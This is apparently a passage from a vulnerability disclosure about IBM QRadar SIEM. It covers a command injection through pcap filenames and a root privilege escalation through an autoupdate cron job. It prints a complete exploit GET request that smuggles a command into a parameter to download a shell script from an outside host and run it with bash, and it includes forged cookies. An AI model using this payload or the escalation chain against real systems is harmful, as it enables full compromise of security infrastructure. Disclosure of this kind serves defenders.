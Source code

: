 Which clearly leads to a command injection right here, using the pcap filenames:

```
159                 $cmd = "/usr/bin/zip -qj $zip_filename $fileList 2>&1";
160                 //error_log("\$cmd =".$cmd);
161
162                 $result = exec($cmd, $cmd_output, $cmd_retval);
```

Bingo! It allows us to execute code as the httpd web server user, which is the unprivileged “nobody” user. For example, to download and execute a shell from 172.28.128.1, we can send the following GET request, provided we have used vulnerability #1 to create valid SEC and QRadarCSRF cookies:

`GET /ForensicsAnalysisServlet/?forensicsManagedHostIps=127.0.0.1/forensics/file.php%3f%26&action=get&slavefile=true&pcap[0][pcap]=/rand/file&pcap[1][pcap]=$(mkdir -p /store/configservices/staging/updates && wget -O /store/configservices/staging/updates/runme http://172.28.128.1:4444/runme.sh && /bin/bash /store/configservices/staging/updates/runme)& HTTP/1.1`<br>
`Cookie: SEC=owned; QRadarCSRF=superowned;`<br>

This will take a few seconds to process, but eventually our shell gets downloaded, and we get the following response:

`HTTP/1.1 200 OK`
`{"exceptionMessageValue":"javax.servlet.ServletException: No valid forensics analysis forensicsManagedHostIps parameter found."}`

The pcap[1][pcap] parameter is shown unencoded to facilitate reading, but the actual exploit should have this parameter fully URL encoded. As you can see, we can use the forensicsManagedHostIps not only to pick the host address but also to inject the URL path that will be used.

Care needs to be taken when choosing a directory to download the file to. The “nobody” user cannot write to /tmp, but a good choice is /store/configservices/*, which is used for various tasks, and is writeable by “nobody”. The /store/configservices/staging/updates/ was chosen (and created) because it plays a central role in our upcoming root privilege escalation exploit.

Vulnerability: Privilege Escalation (“nobody” user to root)<br>
Attack Vector: Local<br>
Constraints: “nobody” user shell needed (can be obtained with vulnerability #2)
Affected products / versions:<br>
– IBM QRadar SIEM: 7.3.0 and 7.3.1 confirmed; possibly all versions released since mid-2014 are affected<br>
The final step to totally owning QRadar is to escalate privileges from our limited “nobody” user to root.<br>
For this we can leverage the following cron job, which runs as root every minute:

```
# Check if autoupdate should be run
* * * * * /opt/qradar/bin/UpdateConfs.pl  > /dev/null 2>&1
```

The code is convoluted, so it won’t be shown here for brevity. However, this Perl script invokes checkRpm(), which then calls checkRpmStatus(). The latter will fetch the autoupdate_patch database table and check if there are any entries left to process. If the file entry name ends with .rpm, it will invoke processRpm(), which installs it, otherwise it will invoke installMinor(), which will run “sh +x” on the file entry. These file entries are expected to be in the “update_download_dir” directory, which can be fetched with psql -U qradar -c “select value from autoupdate_conf where key = ‘update_download_dir'”, but it is /store/configservices/staging/updates/ by default. As explained in vulnerability #2, /store/configservices/* is writeable by “nobody”, so we can dump any files we want there, create directories, etc.
